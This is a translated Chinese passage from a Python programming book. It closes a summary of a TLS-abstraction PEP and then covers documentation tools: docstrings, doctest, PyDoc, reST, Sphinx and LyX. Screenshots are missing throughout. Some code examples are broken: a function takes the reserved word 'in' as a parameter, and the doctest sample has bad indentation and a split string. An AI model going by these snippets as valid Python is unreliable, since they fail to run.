PEP 提出了几个新的抽象基类，以及一个访问这些类的接口。它们可以用来访问 TLS 功能，而无需紧密绑定到 OpenSSL：

1.  以下是由 Python 当前使用的接口，需要标准化：

    +   配置 TLS，目前由 `ssl.SSLContext` 类设置。

    +   用于加密/解密的无实际 I/O 的内存缓冲区，目前由 `ssl.SSLObject` 类设置。

    +   包装套接字对象，目前通过 `ssl.SSLSocket` 实现。

    +   将 TLS 配置放入之前指示的包装对象中，目前通过 `ssl.SSLContext` 实现。

    +   指定 TLS 密码套件，目前通过使用 OpenSSL 密码套件字符串处理。

    +   指定 TLS 握手的应用层协议。

    +   指定 TLS 版本。

    +   向调用函数报告错误，目前通过 `ssl.SSLError` 实现。

    +   指定要加载的客户端/服务器证书。

    +   指定在验证证书时使用的信任数据库。

    +   在运行时访问这些接口。

1.  鉴于前面提到的缓冲区和套接字，这个 PEP 旨在提供一个包装缓冲区的抽象基类，但对于包装套接字则提供一个具体类。

这导致了一个问题，即少数 TLS 库无法绑定到抽象类，因为这些库无法提供包装缓冲区实现，例如 I/O 抽象层。

1.  在指定 TLS 加密套件时，抽象类不会工作。因此，这个 PEP 的目标是提供一个更好的 API 用于加密套件配置，可以根据必要的实现更新以支持不同的加密套件。

1.  当指定要加载的客户端/服务器证书时，问题来自于私钥证书可能成为内存中的可能；也就是说，它可能从进程内存中提取出来。因此，证书模型需要允许实现提供更高层次的安全性，通过防止密钥提取，同时允许无法满足相同要求的实现。较低的标准将简单地维持当前的方法：从内存缓冲区或从文件中加载证书。

1.  指定信任数据库很困难，因为不同的 TLS 实现允许用户选择他们的信任存储的方式各不相同。一些实现仅使用特定实现专用的指定格式，而其他实现可能不允许指定不包括其默认信任存储的存储库。因此，这个 PEP 定义了一个信任存储模型，该模型对存储的形式要求很少信息。

1.  由于 `ssl.SSLContext` 管理不同的功能（持有和管理配置，以及使用配置来构建包装器），因此建议将这些责任分割成单独的对象。

`ssl` 模块提供了一个服务器，它能够根据客户端对主机名的请求修改 TLS 配置。这允许服务器更改证书链以匹配所需的主机名证书链。

然而，这种方法不适用于其他 TLS 实现。那些实现通常从回调中返回一个值，指示需要做出哪些配置更改。这需要一个可以接受并持有 TLS 配置的对象。

因此，这个 PEP 提出将 `SSLContext` 分割成单独的对象：`TLSConfiguration` 作为配置的容器，而 `ClientContext` 和 `ServerContext` 对象由 `TLSConfiguration` 实例化*。

# 还有更多...

这个 PEP 进一步详细说明了 API 的实际实现方式，不同 TLS 库提供相同功能的示例，等等。有许多与本书无关的细节，但对于那些希望在项目中使用 TLS 库的读者来说，这些细节值得审查，因为这些更改应该会在 Python 的未来版本中显示出来。

# 使用 LyX 进行文档编写

本章将涵盖 Python 文档。具体来说，我们将讨论如何在程序内部和通过外部文档记录代码。我们将涵盖：

+   Python 文档工具和技术

+   行内注释和`dir`命令

+   使用 docstrings

+   使用 PyDoc 帮助

+   HTML 报告

+   使用`reStructuredText`文件

+   使用 Sphinx 文档程序

+   使用 LaTeX 和 LyX 文档准备程序

# 简介

记录代码是许多程序员的噩梦。虽然代码文档很重要，但一些程序员更喜欢将这项工作留给技术作家。其他人会提供最少的信息，有时是作为 README 文件或其他外部文档。一般来说，除非程序由公司或组织支持，否则自制的软件只需提供足够的信息来告诉用户如何使用它。

老实说，一些文档看起来像是开发时间线上的笔记，而不是有用的文档。许多作者因为文档不充分而放弃安装程序，尤其是在调试不良安装时。

# Python 文档工具和技术

在编写代码文档时，有众多工具和技术可供选择。在本节中，我们将讨论开发者们常用的几种常见方法。

# 如何做到这一点...

1.  **代码混淆**：首先，简要介绍一下如何使代码难以阅读。混淆代码并使其难以阅读有合理的理由，例如尝试防止逆向工程。其他人只是喜欢挑战；可以考虑国际混淆 C 代码竞赛([`ioccc.org`](http://ioccc.org))。

另一方面，使代码难以阅读可能是创建可以绕过检测程序的恶意软件的尝试。一个例子是`JSF**k`，它仅使用六个不同的符号将 JavaScript 代码转换为 JavaScript 的原子部分，如[`www.jsfuck.com`](http://www.jsfuck.com)中的`jsf.js`所示。该文件展示了`alert("This was a hidden message")`的混淆等效代码，但任何有效的 JavaScript 代码都可以使用`JSF**k`实用程序进行复制。实际上，jQuery 已经被编码成一个功能齐全的、即插即用的`JSF**k`版本（jQuery Screwed），仅使用六个可用的字符。

1.  **代码作为文档**：代码作为文档可能是最基础的文档形式，因为它除了代码本身外不需要包含任何额外信息。自然地，这要求代码以使代码所执行的操作及其方式一目了然的方式进行编写。

虽然从理论上讲，每种语言都有能力自我文档化，但有些语言比其他语言更差。Perl 通常被引用为一个糟糕的语言，因为它被设计成快速编写脚本，但方式非常简洁；如果一开始投入大量努力，那么在编写程序时将会得到回报（与用 C 语言编写简单脚本相比）。因此，如果你不熟悉 Perl，即使是未加密的脚本也可能几乎无法阅读；请参见以下 Perl 代码示例 (`perl_interactive.pl`)：

```py
      perl -e 'do{print("perl> ");$_x=<>;chomp 
      $_x;print(eval($_x)."\n")}while($_x ne "q")'
```

上述代码创建了一个 Perl 交互式外壳。因为 Perl 没有像 Python 那样的交互式解释器，你必须说服系统为你创建一个。正如之前提到的，如果你不知道如何阅读 Perl，它不会为你提供任何帮助。

源代码应该能够独立阅读，因为它是程序的唯一真实表示；其他一切都是受人类遗忘的影响，因为当代码被修改时，它们更有可能不会被更新。这意味着使用智能名称为变量、函数等命名；它们应该表明它们的作用。这样，即使没有其他信息，阅读它的人至少可以猜测代码预期要做什么。

1.  **注释**：对于本文作者来说，内联注释是编写代码时文档化的最低努力水平。不幸的是，太多的在线代码示例没有注释，迫使读者要么查看外部文档，要么手动解析代码的功能。

关于注释的在线辩论已经发生，因为一些程序员不相信注释，认为代码应该是自我文档化的。其他人则认为，一个简单的一行注释解释函数应该做什么，比花十分钟阅读代码更容易、更快地阅读和理解，尤其是如果原始开发者旨在用尽可能少的行数完成任务。

1.  **dir 命令**：虽然程序员不会直接使用它，但 Python 允许使用 `dir` 命令列出给定模块中所有可用的函数和属性。因此，为这些项目使用智能名称意味着简单的 `dir` 调用可以快速提供大量信息。

1.  **Docstrings**：Docstrings 是 Python 文档的生命线。它们提供了关于代码的代码内文档，例如函数接收的参数和被调用时返回的内容的规范。它们还提供了代码每个部分预期要做什么的简要概述，用普通语言表达。

1.  **PyDoc**：PyDoc 是一个内置的 Python 工具集，它利用 docstrings 为用户提供有用的信息。在调用 `help(<对象>)` 时，它最容易使用。

上述列表并不全面，但它确实涵盖了本章剩余部分我们将要讨论的功能。

# 内联注释和 dir 命令

记录代码最简单和最常见的方式就是在编写代码时添加注释。这可以是从简单提醒开发者注意的`TODO`到解释开发者为何以特定方式编写代码的解释。

如前所述，Python 代码中的注释以井号`#`开头，并持续到行尾。多行注释可以通过在每行开头添加井号或使用三引号来实现。然而，请注意，某些工具不了解三引号注释，因此最好谨慎使用。

行内注释的问题在于，只有当你主动查看代码时才能看到它们。虽然我们将讨论访问代码注释的方法，但这些基本的单行注释不会被文档解析器主动提取。

然而，如果你想查看模块提供给开发者的函数，使用`dir()`函数是一种简单的方法。以下是一些关于`dir()`函数提供的信息：


以下示例展示了如何使用`dir()`来显示`math`模块（必须先导入）中所有可用的函数：


使用`dir()`时，并没有很多非常有用的信息，但如果只需要知道可用的函数和属性，而不必深入研究更详细的文档，它可能会有所帮助。

这是个好时机来回顾 Python 如何使用下划线。例如，截图中的`__doc__`这样的条目是与 Python 解释器关联的属性，通常不应由开发者直接调用。此外，由于它们是为 Python 的使用预定义的，因此它们的名称不应在程序中用于其他目的。例如，使用`__name__`作为变量名可能会导致程序错误。

单个前导下划线表示伪私有项。由于 Python 不像其他语言那样有公共/私有属性，程序员必须更加注意他们试图做什么。伪私有项可以像普通项一样使用；下划线只是告诉查看代码的人，伪私有项不应在它们预期之外的区域使用。

此外，伪私有项在使用`from <module> import *`时不会被导入。这是它们私有性质的一部分。然而，当使用`import <module>`时，它们将被导入。因此，为了确保在导入模块时所有函数和属性都可用，需要使用常规的`import`。当然，访问这些项需要使用点命名法来明确它们：`<module>.<item>`。

# 使用文档字符串

文档字符串是具有特殊意义的 Python 中的三引号字符串。当使用时，它们形成对象的`__doc__`属性。虽然不使用文档字符串是可以的，而且如果你使用它们，有很多项目没有文档字符串的例子，但查看 PEP 257 以了解如何正确使用它们是值得的。虽然违反 PEP 中的指南不会损害你的代码，但可能会让其他程序员质疑你，但如果你尝试使用像 Docutils 这样的工具，这将会真正造成伤害，因为它们期望文档字符串格式正确。

# 如何做...

1.  文档字符串是一个模块、函数、类或方法中的第一个项目；如果它们放在其他地方，那么这些工具可能不会将它们识别为文档字符串。

1.  文档字符串可以是单行或多行的，如下面的`docstring_example.py`所示：

```py
        def get_pressure():
            """Returns the pressure in the system."""
            return sys_press

        def calc_press_diff(in, out):
            """Calculates the pressure drop across a valve.

            :param in: Input pressure
            :param out: Output pressure 

            :return The valve pressure drop
            """
            deltaP = out - in
            return deltaP
```

1.  按照惯例，单行文档字符串用于明显的用例。即使是一行，也使用三引号的原因是，如果需要，可以轻松地扩展文档字符串。

1.  单行文档字符串应被视为对象的总结语句，并以句号结束，因为它应该描述对象做什么，即*这是做什么*或*返回这个*。它们不应该是动作的描述；例如，*返回根级别对象的路径名*。

你会注意到，在前面的例子中，这两个文档字符串都没有遵循这一指导原则。因为这些是指导原则而不是铁的规则，所以这是允许的。这位作者只是觉得在文档字符串中解释正在发生的事情更舒服，即使它与实际代码重复。这回到了这样一个事实，即阅读某物做什么然后看到实现它的代码比试图确切地弄清楚代码应该做什么要容易得多。

1.  多行文档字符串有总结语句，就像单行文档字符串一样，但随后会继续提供更多信息。这些附加信息可以是程序员认为重要的任何内容，尽管 PEP 257 为不同的对象提供了指南。以下是对这些指南的概述，以便一站式购物：

    +   类文档字符串应该在文档字符串的结尾和第一个方法之间有一个空行。它们应该总结类的行为，并列出公共方法和实例变量。

    +   如果类将被子类化，并且有子类接口，则应在文档字符串中单独列出子类接口。类构造函数应在`__init__`方法中拥有自己的文档字符串。

    +   如果一个类是另一个类的子类并且主要继承其行为，子类的文档字符串应该表明这一点并显示差异。使用“覆盖”一词来表示子类方法替换继承方法的地方。使用“扩展”一词来表示子类方法调用继承方法并添加功能的地方。

    +   模块文档字符串应列出可导出的类、异常、函数和其他对象，并对每个对象提供一行总结。

    +   包文档字符串（位于包的`__init__.py`模块中）应列出包导出的模块和子包。

    +   函数/方法文档字符串应总结行为并记录所有参数（必需和可选）、返回值、副作用、异常以及函数或方法可以调用的限制。任何关键字参数也应予以说明。

1.  另一个与文档字符串相关的部分是 doctests。实际上，doctests 是由`doctest`模块处理的，并寻找文档字符串中看起来像交互式 Python 会话的文本，包括`>>>`提示符。任何这样的代码都会像用户在交互式外壳中输入一样执行，并与预期结果进行比较。

Doctests 通常用于确保文档字符串保持最新，通过测试示例是否与代码本身的任何更改兼容来做到这一点——通过回归测试检查测试文件是否仍然有效，以及在教程开发中包含输入/输出示例。以下是一个 doctest（`doctest.py`）的示例：

```py
        """
        Factorial module.

        This module manually defines the factorial() function 
        (ignoring the fact that Python includes math.factorial()).
        For example,

        >>> factorial(4)
        24
        """

        def factorial(n):
            """Return the factorial of n.

            Normal loop
        >>> for n in range(4): print(factorial(n))
        1
        1
        2
        6

        List comprehension
        >>> [factorial(n) for n in range(6)]
        [1, 1, 2, 6, 24, 120]

        Normal factorial
        >>> factorial(25)
        15511210043330985984000000

        Check for negative values
        >>> factorial(-3)
        Traceback (most recent call last):
        ...
        ValueError: Value must be at least 0.

        Floating point values must end in "0":
        >>> factorial(25.1)
        Traceback (most recent call last):
        ...
        ValueError: Float value is required to be equivalent to integer.
        >>> factorial(25.0)
        15511210043330985984000000

        Check for outsized values:
        >>> factorial(1e25)
        Traceback (most recent call last):
        ...
        OverflowError: Value is too large to calculate.
        """

        import math
        if not n >= 0:
            raise ValueError("Value must be at least 0.")
        if math.floor(n) != n:
            raise ValueError("Float value is required to
                              be equivalent to integer.")
        if n+1 == n:  # catch a value like 1e100
            raise OverflowError("Value is too large to calculate.")
        result = 1
        factor = 2
        while factor <= n:
            result *= factor
            factor += 1
        return result

        if __name__ == "__main__":
            import doctest
            print(doctest.__file__)
            doctest.testmod()
```

其中最难的部分是编写测试来模拟交互会话，如下面的截图所示：


初看之下，它看起来应该给出相同的答案。问题在于将`doctest`输出与手动输入命令时的输出对齐。然而，当测试正确编写时，系统会提供一个无用的响应，如下所示：


这仅仅意味着所有测试都通过了，就像使用`unittest`模块创建测试只返回一个`.`来表示成功的测试一样。要获得更有意义的结果，或者要查看测试是如何进行的，你必须向命令提供`-v`选项，如下所示：


这里所涵盖的 doctests 远不止这些，但对于大多数需求来说已经足够了。文档深入探讨了从外部测试文件中提取测试，而不是直接与代码同行；如何处理异常；以及类似的内容，以及 doctest 引擎的后端工作细节。

# 还有更多...

以下是对 Python 的`random`模块文档字符串的截图：


这条信息并不能真正告诉你很多关于模块的信息，因为它只是对它的描述。要获取更全面的信息，你必须使用`help(random)`*，如下所示：


这个列表实际上包含超过 20 页的格式化文本，就像 Unix 的`man`页面一样。但是，这里包含了你需要了解的关于模块及其包含内容的所有信息；因此，如果你没有互联网访问但需要了解如何使用 Python 模块，这是一种方法。

你也可以对模块中的单个元素这样做。例如，以下截图显示了`help(random.seed)`的结果：


如果你喜欢这种方式，可以使用`print(random.seed.__doc__)`来获取相同的信息：


# 使用 PyDoc 帮助

如果你适当地使用 docstrings，你可以利用 PyDoc 的力量，这是一个内置的 Python 工具集，可以提取 docstrings 和其他信息，并将它们格式化为易于阅读的文本。虽然有许多其他工具可用，但 PyDoc 与 Python 一起提供，所以你可以确信它可用（只要你有访问 Python 标准库的能力）。

# 如何做...

1.  如前所述，通过使用`help()`函数可以访问 PyDoc。虽然内置对象可能有多个信息页面，但你的代码不必如此复杂，除非你希望它如此。根据使用的 Python 版本，你不需要导入你想要帮助的模块，但通常最好导入它，以确保。

1.  回顾先前的`random()`示例，你可以看到通过`help()`可以获得大量信息；当然，这完全取决于开发者决定放入 docstrings 中的信息量。从功能上讲，输出与使用 Unix 的`man`命令查看在线命令手册非常相似。

1.  `help()`的一个优点是它可以用于任何 Python 对象，而不仅仅是模块，当调用`help(list)`时：


1.  你甚至可以查看 Python 对象包含的函数和方法，例如`help(list.pop)`：


1.  除了使用对象类型的名称（例如，`list`），你甚至可以使用实际的对象结构，如下所示：`help([].sort)`:


1.  先前的示例展示了遵循推荐的 docstring 指南为什么如此重要。信息展示有一个预期的格式，作为一个开发者，你不知道你的代码用户将使用什么方法来访问 Python 的帮助功能。至少，在你的项目中保持内部一致性是很重要的，即使你不遵循官方的 Python 指南。

# HTML 报告

对于喜欢更直观的帮助工具，或者喜欢保持浏览器打开状态的人来说，PyDoc 提供了从官方 Python 文档创建 HTML 文件的能力。根据使用的 Python 版本，有几种不同的方式可以访问 HTML 信息。

# 如何做...

1.  从 Python 3.2 开始，可以使用 `python -m pydoc -b` 打开帮助网页。如果您同时安装了 Python 2 和 3，您可以指定您希望使用的 Python 版本；例如，`python3 -m pydoc -b`*.* 如果您正在使用 Python 2，则使用命令 `python -m pydoc -p <端口号>`。端口号可以是 0，这将随机选择一个未使用的端口号作为 Web 服务器。

1.  无论您使用哪个版本，它都应该打开一个类似于以下截图的网页：


1.  Python 中所有可用的模块都显示为超链接。您也可以通过 *搜索* 框进行搜索；或者，如果您知道您感兴趣的模块名称，可以直接将其输入到获取框中。点击超链接时，您将获得与 Python 网站或使用 `help()` 命令提供的信息相同，如下所示：


1.  除了内置模块外，如果您从虚拟环境运行 PyDoc，您将收到有关虚拟环境的信息，如下所示：


这样，您不仅可以查看 Python 中可用的默认模块，还可以查看是否在虚拟环境中放置了某些内容。

1.  通过使用命令 `python -m pydoc -g` 可以以另一种方式访问帮助文件，该命令打开一个看起来通用的窗口以启动浏览器窗口或直接搜索，如下所示（您需要安装 `python-tk` 软件包才能运行此操作）：


1.  如果您在搜索栏中输入信息，您将获得一些信息，但不多，如下所示：



1.  在这种情况下，如果我们转到 `multiprocessing.pool`，就像前面步骤 3 中那样，我们可以看到信息以类似网页的形式呈现；然而，显然信息是不同的，因为这是 Python 2.7，而前面的例子是 Python 3.6.5：


上述截图显示的信息与步骤 3 中的信息相同，但格式不同，因为它是针对 Python 2.7 的。

# 使用 reStructuredText 文件

根据定义，纯文本在提供信息方面有限；也就是说，文本文件中没有固有的元数据（除了文件系统提供的信息）。换句话说，没有方法可以加粗、斜体或其他方式增强原始文本，以提供某种上下文信息。

在过去的几年中，已经开发了许多标记语言，HTML 是其中的一个主要例子。然而，HTML 对于代码文档来说有点过于复杂。更类似于 Wikitext（[`en.wikipedia.org/wiki/Help:Wikitext`](https://en.wikipedia.org/wiki/Help:Wikitext)）的东西会更有意义，因为它使用简单的 ASCII 字符为原始文本提供上下文。因此，PEP 287 建议使用**reStructuredText**（**reST**）标记来为 Python docstrings、PEPs 和其他需要结构化标记的文档中的结构化文本提供标记。当然，纯文本 docstrings 没有被弃用；reST 只是为希望在其文档中更具表现力的开发者提供了更多选项[。](https://en.wikipedia.org/wiki/Help:Wikitext)

reST 官方文档的位置可以在[`docutils.sourceforge.net/rst.html`](http://docutils.sourceforge.net/rst.html)找到。

# 准备工作

如果你想在单独的 reST 上工作，你可以安装 Docutils 程序（[`docutils.sourceforge.net/index.html`](http://docutils.sourceforge.net/index.html)）。[这个工具允许你将 reST 转换为 HTML、LaTeX、man 页面、XML 或其他格式。](http://docutils.sourceforge.net/index.html)

# 如何做到这一点...

1.  如果你只想在 Python 文档中包含 reST，以下是一个关于基本语法如何工作的快速介绍；最后是一些截图，展示了这些在实际中的应用（更详细的演示可在[`docutils.sourceforge.net/docs/user/rst/demo.html`](http://docutils.sourceforge.net/docs/user/rst/demo.html)找到）：

    +   段落是 reST 中最基本的模式。它只是一个由单个空行与其他文本块分隔的文本块。这些块必须具有相同的缩进，从左侧边缘开始。缩进段落会产生偏移段落，通常用于显示引用文本。

    +   内联标记可以通过使用星号来实现，即`*斜体*`和`**粗体**`。等宽的、字面意义的文本用双反引号表示：```py ``*backticks*`` ```。请注意，任何通常用于标记文本的特殊字符都应按字面意义表达，而不是作为标记解释。

    +   要使用特殊字符，reST 是半智能的。使用单个星号不会引起任何标记发生。要使用星号标记文本而不进行标记，请使用双反引号，或者使用`\*`来转义星号。

    +   列表可以通过三种方式创建：编号列表、无序列表或定义列表。编号列表以数字或字母开头，后跟一个`.`、`)`或`()`；例如，`1.`、`A)`和`(i)`都是有效的。

        列表项可以通过使用`*`、`+`或`-`来创建。出现的符号取决于使用的字符。子列表项需要从原始文本中缩进两个空格才能被识别。

        定义列表，虽然被归类为列表，但更像是一种特殊用途的段落。它由一个术语和在其下一行上的预期定义块组成。

    +   可以通过使用 `::` 来指示预格式化代码示例。`::` 符号出现在缩进代码块之前的行上；想象一下一个以 `::` 结尾的行开始的引用段落。预格式化在缩进返回正常时结束。

    +   使用一系列字符直接位于文本行下方来指示章节标题。这些字符的长度必须与文本相同。每一组字符都假定处于相同的标题级别，因此不要随机选择字符。以下字符都是允许的：``- _ : ` ~ ' " ^ * + = # < >``。

    +   标题和副标题的指定方式与章节标题类似，不同之处在于文本上方和下方的行都有一系列字符，而不仅仅是下方，就像标题一样。

    +   通过使用 `.. image::` 后跟图像位置来包含图像。图像可以位于本地驱动器或互联网上。

1.  以下是一个早期讨论的所有项目的示例，包括原始的 reST 和其输出：


前面的截图显示了在线 reST 编辑器的通用 HTML 模板。

1.  以下截图显示了相同的 reST 标记可以通过解析引擎转换成完全不同的外观：


前面的截图显示了可以与在线 reST 编辑器一起使用的备用 HTML 模板。

# 使用 Sphinx 文档程序

Sphinx 是为 Python 文档编写的，并且在官方文档创建中被广泛使用。事实上，Python 网站上的所有文档都是通过 Sphinx 生成的。甚至 Sphinx 网站也是用 reST 编写的，并转换为 HTML。

Sphinx 可以将 reST 转换为 HTML、PDF、ePub、Texinfo 和 man 页面。该程序还可以通过插件等方式扩展，例如从公式生成数学符号或突出显示源代码。

# 准备工作

通过 `pip` 或系统安装，例如使用 `apt install` 下载 Sphinx。

# 如何操作...

1.  安装完成后，建议您切换到项目目录，因为程序默认在当前目录中查找文件。然而，这不是必需的，因为您以后总是可以更改配置。

1.  在命令提示符中运行以下命令：`sphinx-quickstart`。您将进入一个交互式配置会话，如下所示：


1.  问题通常是自解释的，但如果你发现某些内容不清楚，请务必检查文档。不过，如果你只是选择了默认设置而没有得到预期的结果，也不要慌张。这个过程只是简单地创建默认配置文件，这些文件可以在以后手动修改。

    需要指出的是，如果您想使用您的 docstrings 生成文档，确保您在安装时选择 `autodoc`。

1.  在你的目录中，你现在应该看到一些新文件，特别是`conf.py`和`index.rst`。这些文件用于允许 Sphinx 运行：

    +   `conf.py`自然地是 Sphinx 的配置文件。它是设置 Sphinx 的主要位置，快速启动过程中创建的条目存储在这里。

    +   `index.rst` 是告诉 Sphinx 如何创建最终文档的主要文件。它基本上告诉 Sphinx 要包含哪些模块、类等。

1.  默认情况下，`conf.py` 在`PYTHONPATH` 中查找文件；如果你想要使用其他位置的文件，确保你正确设置它，在文件顶部。具体来说，取消注释`import os`、`import sys` 和 `sys.path.insert()` 行（并根据需要更新路径），如下所示：


由于这个示例中 Sphinx 运行在与模块相同的目录下，因此没有必要更改路径。

1.  如果你设置`conf.py`使用`autodoc`，下一步相对简单。转到`index.rst`并告诉 Sphinx 自动查找文档信息。最简单的方法是查看[`www.sphinx-doc.org/en/stable/ext/autodoc.html#module-sphinx.ext.autodoc`](http://www.sphinx-doc.org/en/stable/ext/autodoc.html#module-sphinx.ext.autodoc)，它解释了如何自动导入所有所需的模块并从中检索文档字符串。以下是为这个示例创建的条目的截图；具体来说，添加了`automodule`和子条目。其他所有内容都使用默认值：


+   +   `automodule` 对象（以及模块名称）告诉 Sphinx 要导入的 Python 模块的名称。提醒一下，模块名称只是 Python 文件名，不带`.py`扩展名。

    +   `members` 对象自动收集所有公共类、方法和函数的文档。如果你不使用它，只有主对象（在这种情况下是模块）的文档字符串将被导入。

    +   `undoc-members` 对象执行相同的功能，但它将获取没有文档字符串的对象。显然，与文档字符串相比，这些项目的信息将有限。

    +   `show-inheritance` 对象指定将包含模块的继承树。不用说，如果你没有使用继承，这不会有多大帮助。

1.  一旦你设置了配置和索引文件，你可以运行命令`make html`，为你的项目生成 HTML 文件。你可能会遇到错误，如下所示：


这些错误实际上意味着源代码没有满足 reST 预期的间距要求。以下截图是本例中使用的代码的一部分：


具体来说，在文档字符串中的每个分组之间都需要一个空行；也就是说，`param`条目与`except`分开，而`except`又与`return`分开*.* 当运行 HTML 命令时，这些项目之间的空行不存在。

1.  当您最终纠正所有问题后，应该会得到一个成功的 make，如下所示：


1.  现在，您可以进入目标目录，在`_build/html`目录中查找`index.html`（假设您使用了默认值）。

1.  当您打开它时，您应该会看到如下内容：


1.  如果您不喜欢默认主题，Sphinx 还包含了许多其他主题。显然，鉴于它是 HTML，您也可以创建自己的主题。以下是一个包含的主题，*scrolls*：


# 使用 LaTeX 和 LyX 文档准备程序

在准备外部文档（不是文档字符串或其他代码中的文档）时，大多数人会求助于 Microsoft Word 或其他文字处理软件，尽管如今 HTML 也是一个可行的选择。

本节将讨论文字处理程序的替代方案。文字处理程序是**WYSIWYG**，代表**所见即所得**；换句话说，屏幕上所见的就是最终产品中的样子。

我们在这里将要讨论的一个替代方案是文档处理程序。虽然它们看起来与文字处理程序相似，但文档处理程序强调文档组件的布局，而不是文本的格式。换句话说，文档处理程序是**WYSIWYM**（**所见即所得**）。在这些程序中，屏幕上所见并不代表最终产品的外观。

LyX（发音为*licks*）是更受欢迎的文档处理程序之一。它作为 LaTeX 排版系统的图形前端，可用于从书籍和笔记到信件和学术论文的各种文档。

LyX 允许用户声明文档中特定部分的组件类型；例如，章节、标题、段落等。然后，后端软件处理格式化。这使得用户只需简单地编写文档，无需担心文档的外观。

LyX 依赖于 LaTeX（发音为*lateck*，因为 X 实际上是希腊字母 Chi），这是一个排版和文档准备系统。当直接使用 LaTeX 时，用户使用纯文本编写文档，使用标记标签来标识最终文档中不同部分的内容。

LaTeX 在学术界广泛使用，因为它支持数学方程式，创建打印就绪的文档，支持多种语言，并且没有文字处理程序那样的内存问题，这意味着用户在编写包含图形的大文档时不太可能遇到系统崩溃。

LyX 和 LaTeX 正确地使用驼峰命名法，因为 T 和 X 实际上是希腊字母：*T = tau* 和 *X = chi*。

# 准备工作

要使用 LyX，你可以从 LyX 网站下载二进制安装程序（[`www.lyx.org/Download`](https://www.lyx.org/Download)）或使用 Linux 软件包管理器下载它；例如，`apt install lyx`。

您可以单独安装 LaTeX，但建议只安装 LyX，因为 LaTeX 已包含在内，您还可以访问 LaTeX 图形用户界面。

# 如何做...

1.  当你第一次打开 LyX 时，你会看到一个与文字处理器非常相似的窗口，如下所示：


1.  强烈建议您查看帮助菜单下的文档，特别是介绍和教程。这样做最多只需要几个小时，但它们解释了 LyX 大多数基本功能。

1.  特别值得一提的是截图左上角的下拉框，在截图中标为“标准”。这是用于确定文本组件的环境界面。通过此菜单可用的选项如下：

    +   `标准`: 正常段落。

    +   `LyX-代码`: LyX 特定的命令。

    +   `引用`: 总是缩进段落的第 一行，并且在整个段落中使用相同的行间距。

    +   `引用`: 使用额外的间距来分隔段落，并且永远不会缩进第一行。

    +   `诗歌`: 用于诗歌或歌词创作。

    +   `Verbatim`: 预格式化，等宽文本。

    +   `分隔符`: 允许分割列表。

    +   `标签`: 将定义分配给一个单词。

    +   `项目符号`: 项目符号列表。

    +   `列举`: 顺序列表。

    +   `描述`: 与标签类似，但格式不同。

    +   `部分/部分*`: 等同于章节。对于此以及以下项目，`<name>*` 表示不包含编号；否则，项目默认包含编号。

    +   `章节/章节*`: 章节内的部分。

    +   `副节/副节*`: 节的一部分。

    +   `副标题/副标题*`: 子节的一部分。

    +   `段落/段落*`: 粗体段落。

    +   `副段落/副段落*`: 段落的缩进版本。

    +   `标题/作者/日期`: 自解释。

    +   `地址/右地址`: 主要用于信件；唯一的区别是地址的对齐方式。

    +   `摘要`: 文档的执行摘要。

    +   `参考文献`: 手动创建参考部分。

1.  除了这些，LyX 还提供自动创建目录、索引和参考文献的功能。它还可以处理文本绕图、图形标题、编程代码、表格、浮动文本框、文本着色、旋转文本等等。

1.  以下是在编辑器中编写的 LyX 教程部分的截图：


1.  这里是当转换为 PDF 时的相同部分：


1.  这里是相同部分的原始 LaTeX 标记：


1.  作为最后的例子，对于程序员来说更为相关，以下是这位作者第一本书的屏幕截图，书名为《使用 Python 学习编程》，这本书完全是用 LyX 编写的：


1.  以下是在 PDF 中的相同部分：


# 还有更多...

就像许多面向 Unix 的工具一样，LaTeX 使用起来可能比较困难，尤其是在故障排除方面。LyX 本身相当直观，因为它本质上只是 LaTeX 的图形包装器。因此，如果出现问题，它将在底层的 TeX 环境中发生。

在尝试生成 PDF 文件或以其他方式将您的 LyX 文件导出为其他文件格式时，可能会出现问题。通常，这些问题可以通过安装额外的软件来解决，这些软件有时可以在错误信息中找到。

例如，在创建这本书的过程中，这位作者遇到了一个问题，无法创建教程的 PDF 复制，因为在将 EPS 图像转换为 PDF 图像时不断出现错误。这个问题最终通过使用 `apt-cache search epstopdf` 解决，这是根据错误信息确定的。这揭示了所需的工具位于 `texlive-font-utils` 中，这并不立即明显。幸运的是，安装后，PDF 导出工作正常。

所有这些讨论都是为了强调，虽然 LyX 和 LaTeX 是非常强大和有用的工具，但使用它们需要做出重大的承诺。基本安装可能不会提供您项目所需的工具。然而，如果您做出这种承诺，它可以是一个非常有用的环境，不仅适用于代码文档，还适用于创建任何文档。PyPI 上甚至列出了许多可以与核心 TeX 语言交互的 Python 工具。
